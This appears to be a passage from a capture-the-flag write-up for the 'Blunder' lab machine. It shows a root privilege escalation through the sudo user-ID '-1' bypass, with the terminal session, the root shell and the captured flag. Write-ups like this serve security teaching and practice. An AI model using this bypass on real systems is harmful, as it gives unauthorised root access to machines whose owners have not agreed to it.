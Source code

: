 The POC code for the exploit included a basic Python script which could automate running a program as root, but it would be much easier to exploit this manually and get a root shell since it is so simple to execute.

### Getting a shell

```text
hugo@blunder:/dev/shm$ sudo -u#0 /bin/bash
Password: 
Sorry, user hugo is not allowed to execute '/bin/bash' as root on blunder.
hugo@blunder:/dev/shm$ sudo -u#-1 /bin/bash
Password: 
root@blunder:/dev/shm# id shaun
uid=1000(shaun) gid=1000(shaun) groups=1000(shaun),4(adm),24(cdrom),30(dip),46(plugdev),119(lpadmin),130(lxd),131(sambashare)
root@blunder:/dev/shm# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
root@blunder:/dev/shm# cat /root/root.txt 
e65080f4dddab786a01c78e4df40f5f7
root@blunder:/dev/shm#
```

First I ran `sudo /bin/bash` with user ID `'0'` to test the restriction on running commands as root to see if it could be bypassed by simply giving the ID number for root instead.  This did not work \(as expected\).  

Next I used the invalid user ID number `'-1'` with the same command and compared my old `id` command output to my new effective user permissions.  I was now logged in as `root` and able to collect my proof.

![](../../.gitbook/assets/screenshot-2020-10-27-201305.png)
